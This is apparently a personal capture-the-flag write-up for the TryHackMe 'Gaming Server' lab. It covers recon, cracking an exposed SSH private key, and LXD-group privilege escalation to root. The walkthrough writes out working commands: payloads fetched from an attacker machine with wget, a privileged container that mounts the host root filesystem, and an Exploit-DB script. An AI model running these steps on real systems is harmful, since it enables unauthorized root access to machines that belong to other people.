 ```yaml
---
title: Try Hack Me - Gaming Server
date: 2021-01-01 16:32 +0300
categories: [Try Hack Me]
tags: [linux,lxd privilege escalation]     # TAG names should always be lowercase
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- LXC or Linux Container

# Nmap

Start scanning!

<pre class="highlighter-rouge highlight">
Nmap scan report for 10.10.206.197
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/25%OT=22%CT=1%CU=34225%PV=Y%DS=2%DC=I%G=Y%TM=5FE63E
OS:D0%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=102%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.87 seconds
</pre>

Let's check the web page.

# Gobuster

<pre>
gobuster dir -u http://10.10.206.197/ -w /opt/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.206.197/
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
			Starting gobuster
===============================================================
/uploads (Status: 301)
/secret (Status: 301)
</pre>

I found hidden directory <code class="language-plaintext highlighter-rouge">/uploads</code> and <code class="language-plaintext highlighter-rouge">/secret</code>

# Web Page

If we open the hidden directory <code class="language-plaintext highlighter-rouge">/uploads</code>, we will see

<img src="/assets/img/gamingserver_img/uploads.jpg">

The file name <code class="language-plaintext highlighter-rouge">dict.lst</code> soundes like we need to brute force something.
So I download it.

If we open the hidden directory <code class="language-plaintext highlighter-rouge">/secret</code>, we will see

<img src="/assets/img/gamingserver_img/secret.jpg">

After openning <code class="language-plaintext highlighter-rouge">secretKey</code> file

<img src="/assets/img/gamingserver_img/secretkey.jpg">

It is RSA private key. So download and crack it!

# John The Ripper

This link helped me with John and cracking password with RSA private key <a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a>

For brute forcing use <code class="language-plaintext highlighter-rouge">dict.lst</code> that we found before.

# Connect to SSH
We got the password after John. It's time to connect to SSH.

Change permission 
<pre> chmod 600 id_rsa </pre>
Connect 
<pre>ssh -i id_rsa john@10.10.206.197</pre>

Now you can read User.txt

<img src="/assets/img/gamingserver_img/userflag.jpg">

# Privilage Escalation
Anh here i got stuck.. I tried to find <code class="language-plaintext highlighter-rouge">suid</code> files, but it wasn't the solution. And I found <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite">Linpeas</a>. It's really amazing thing! These tools search for possible local privilege escalation paths that you could exploit and print them to you with nice colors so you can recognize the misconfigurations easily. 

We must run this script on victim machine. And our actions are:

Create a python server in the folder where we have our <code class="language-plaintext highlighter-rouge">Linpeas</code> script stored

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

Download the script on the victim machine

<pre>*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh</pre>

Get the access permissions

<pre>
chmod +x linpeas.sh
./linpeas.sh</pre>

You know...The output was huge! It was so lot of details... I'll show you a part

<img src="/assets/img/gamingserver_img/linpeas.jpg">

I tried to something with sudo and I know that it doesn't help. So i googled <code class="language-plaintext highlighter-rouge">lxd</code>. And I found an <a href="https://www.hackingarticles.in/lxd-privilege-escalation/">article</a> which showed how to get root with <code class="language-plaintext highlighter-rouge">lxd</code>.

Download the build alpine from GitHub
<pre>
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine</pre>

After that we will get the tar.gz file which we must send to victim machine like we did it with <code class="language-plaintext highlighter-rouge">linpeas.sh</code>

Create a python server 

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

I moved to <code class="language-plaintext highlighter-rouge">/tmp</code> folder and download the script on the victim machine.

<pre>cd /tmp
*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20201225_2324.tar.gz</pre>

And typed/copied following commands

<pre>
lxc image import ./alpine-v3.12-x86_64-20201225_2324.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
</pre>

Now you are root!

<pre>
mnt/root/root
ls
root.txt
cat root.txt
</pre>

<img src="/assets/img/gamingserver_img/root_flag.jpg">

Your also can get root using the <a href="https://www.exploit-db.com/exploits/46978">report</a> from <code class="language-plaintext highlighter-rouge">Exploit Database</code>

Step 1: Download build-alpine

<pre>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine</pre>

Step 2: Build alpine (as root user)

<pre>bash build-alpine</pre>

Step 3: Create an <code class="language-plaintext highlighter-rouge">.sh</code> file with code on <a href="https://www.exploit-db.com/exploits/46978">Exploit Database</a> website. Move <code class="language-plaintext highlighter-rouge">tar.gz</code> and <code class="language-plaintext highlighter-rouge">exploit.sh</code> files to victim machine. Run this script and you will get root.

Create a python server 

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

I moved to <code class="language-plaintext highlighter-rouge">/tmp</code> folder and download the script on the victim machine.

<pre>
*VICTIM MACHINE*
cd /tmp 
wget attacker_ip:8000/alpine-v3.12-x86_64-20201225_2324.tar.gz
wget attacker_ip:8000/exploit.sh
chmod +x exploit.sh
./exploit.sh -f alpine-v3.12-x86_64-20201225_2324.tar.gz
</pre>

Step 4: Once inside the container, navigate to <code class="language-plaintext highlighter-rouge">/mnt/root</code> to see all resources from the host machine

# Userful for me references

<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>
<div><a href="https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/">Log in with an SSH private key on Linux and macOS</a></div>
<div><a href="https://www.hackingarticles.in/lxd-privilege-escalation/">Lxd Privilege Escalation</a></div>
<div><a href="https://www.exploit-db.com/exploits/46978">Ubuntu 18.04 - 'lxd' Privilege Escalation </a></div>
